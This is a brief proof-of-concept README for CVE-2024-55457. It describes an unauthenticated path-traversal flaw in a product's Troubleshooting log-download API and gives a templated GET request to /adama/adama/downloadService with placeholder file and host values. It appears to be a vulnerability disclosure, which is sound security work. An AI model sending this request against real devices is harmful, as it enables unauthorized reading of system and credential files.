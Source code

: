 # CVE-2024-55457-PoC

In the API responsible for downloading logs in the Troubleshooting -> Download Log feature, the application does not perform path validation for the file specified through the file parameter. Additionally, users can call this API without authentication.

GET /adama/adama/downloadService?type={}&file={} HTTP/1.1
Param: file
Host: {IP_or_Domain}

![{C74ABE69-71EC-40A5-A361-4FC031820AA1}](https://github.com/user-attachments/assets/970e8f1b-1542-4934-b80e-5473e9acb8fa)
